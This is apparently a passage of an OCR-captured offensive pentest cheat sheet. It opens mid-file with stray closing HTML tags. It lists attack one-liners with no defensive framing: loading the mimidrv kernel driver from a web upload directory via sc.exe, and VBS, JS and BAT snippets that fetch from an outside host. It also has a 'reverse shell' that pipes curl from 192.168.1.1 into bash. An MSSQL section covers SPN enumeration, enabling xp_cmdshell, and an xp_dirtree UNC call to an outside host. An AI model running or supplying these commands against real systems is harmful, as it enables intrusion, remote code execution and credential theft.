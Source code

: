 ```html
</script>
</body>
</html>
```

Loading a driver through sc.exe
```
sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
sc start mimidrv
```

VBS get
```
Dim o
Set o = CreateObject("MSXML2.XMLHTTP")
o.open "GET", "http://192.168.1.1/fromvbs", False
o.send
```

JS get
```
var url = "http://192.168.1.1/fromjs"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

BAT get
```
start "" http://192.168.1.1/frombat
```

Linux rev shell bash
```shell
curl 192.168.1.1/s.sh | bash
```

<hr>
# MSSQL
<hr>
Query MSSQL servers
```
setspn -T <domain> -Q MSSQLSvc/*

. .\GetUserSPNs.ps1
```

xp_cmdshell
```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami'
```

xp_dirtree
```
.\SQL.exe sql.domain.com msdb "EXEC master.sys.xp_dirtree '\\192.168.1.1\file', 1, 1;"
```
